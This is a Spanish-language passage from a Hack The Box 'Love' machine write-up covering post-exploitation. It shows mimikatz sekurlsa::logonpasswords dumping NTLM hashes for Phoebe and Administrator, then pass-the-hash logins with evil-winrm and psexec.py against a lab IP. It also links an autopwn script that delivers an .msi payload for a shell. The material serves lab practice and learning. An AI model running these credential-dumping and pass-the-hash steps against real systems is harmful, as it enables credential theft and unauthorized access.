> [AutopwnLove.py](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/love/autopwnLove.py).

El cual efectúa la explotación e instalación del paquete `.msi` para generarnos una Shell en el propio script, el script levantara un servidor web por 10 segundos el cual usaremos para subir el paquete a la máquina (que si no le especificas uno el programa lo crea):

![344bash_autopwn_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_autopwn_done.png)

---

## Post Explotación: Extracción hashes NTLM [#](#post-privesc-ntlm-hashes) {#post-privesc-ntlm-hashes}

Algo que podemos hacer es jugar con [mimikatz](https://github.com/gentilkiwi/mimikatz/wiki) (herramienta que entre muchas cosas nos ayuda a robar datos de identificación de usuarios) para extraer los hashes [**NTLM**](https://www.ionos.es/digitalguide/servidores/know-how/ntlm/) para hacer el famoso ataque **PassTheHash**:

> Este ataque consiste en capturar las passwords que se encuentran almacenadas en la memoria RAM. En realidad, no se capturan las passwords como tal, sino que se captura el hash de cada password. [Qué es Mimikatz?](https://zybersec.es/que-es-mimikatz-y-por-que-nos-tenemos-que-preocupar-si-lo-detectamos-en-nuestra-red).

> Si una persona captura el hash de la password, puede hacer exactamente lo mismo que si tuviera la password original.

Perfectisimo, pues subamos **mimikatz** a la máquina víctima, lo podemos descargar del propio [repositorio](https://github.com/gentilkiwi/mimikatz) en la parte [**Releases**](https://github.com/gentilkiwi/mimikatz/releases)...

Una vez tengamos el binario `mimikatz.exe`, lo subimos y ejecutamos:

```powershell
c:\Users\Administrator\Videos>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 May 31 2021 00:08:47
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # 
```

Ahora, si queremos intentar ver las contraseñas en texto plano (o al menos los hashes **NTLM**) escribimos:

```powershell
mimikatz # sekurlsa::logonpasswords
```

Nos respondería con info de los usuarios, en este caso de **Phoebe** y **Administrator**:

**Phoebe:**

![344bash_win_mimi_lsa_phoebe](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_win_mimi_lsa_phoebe.png)

**Administrator:**

![344bash_win_mimi_lsa_admin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_win_mimi_lsa_admin.png)

Vemos los hashes **NTLM** pero no las contraseñas en texto plano, aunque nos da igual, ya que podemos hacer mucho con simplemente los hashes, como por ejemplo entablarnos una **PowerShell** con ayuda de **evil-winrm** o **psexec.py** como cualquiera de los dos usuarios:

### Pass-The-Hash - evil-winrm [🔗](#post-privesc-pth-winrm) {#post-privesc-pth-winrm}

Por ejemplo para el usuario **Phoebe** tomaríamos su hash y escribiríamos:

```bash
❱ evil-winrm -i 10.10.10.239 -u 'phoebe' -H a9ccd3a011ceb45b44ce6f6b40122268
```

![344bash_evilwinrm_pth_phoebe](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_evilwinrm_pth_phoebe.png)

Y haríamos lo mismo con el usuario **Administrator** (con el que realmente no nos sabemos su contraseña):

![344bash_evilwinrm_pth_admin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_evilwinrm_pth_admin.png)

😜 🥴 😵

### Pass-The-Hash - psexec.py [🔗](#post-privesc-pth-psexec) {#post-privesc-pth-psexec}

Es igual de sencillo, solo que esta vez nos lo permitió solo con el usuario **Administrator**:

**Phoebe**:

```bash
❱ psexec.py -hashes :a9ccd3a011ceb45b44ce6f6b40122268 Phoebe@10.10.10.239
Impacket v0.9.22.dev1+20200909.150738.15f3df26 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.239.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
```

**Administrator**:

![344bash_psexec_pth_admin](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/love/344bash_psexec_pth_admin.png)

...

Y así conseguiríamos una Shell sin necesidad de contraseñas e incluso sin necesidad de explotación alguna, simplemente con el hash **NTLM** identificador del usuario (:

Podemos hacer más cositas guapas con **mimikatz**, pero eso ya se los dejo de investigación :P

...

No me llamo tanto la atención el encontrar la contraseña de **Phoebe** en una página web así de la nada, pero de resto estuvo lindo el camino.

Y una vez más están volviendo a poner máquinas que si son sencillitas, esas que incentivan a la gente y no les hace explotar la cabeza tan deprisa jajaj, así que gracias **HTB**.

La escalada no la había hecho y me pareció interesante, no sé que tan frecuente se ve eso en realidad, pero bueno, existe...

Bueno, nos leeremos después, a seguir disfrutando de la vida y a seguir rompiendo todo!! Bless <3